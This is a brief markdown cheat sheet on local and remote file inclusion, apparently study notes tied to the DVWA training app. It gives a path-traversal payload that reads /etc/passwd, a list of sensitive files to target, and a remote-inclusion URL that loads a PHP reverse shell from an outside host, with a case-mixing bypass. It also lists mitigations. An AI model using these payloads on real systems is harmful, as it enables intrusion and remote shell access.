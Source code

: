# File Inclusion

## Local
- Exploit
  - Modify ```?page=include.php``` to ```?page=../../../../../etc/passwd```

- Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```

- Bypass
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```

## Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
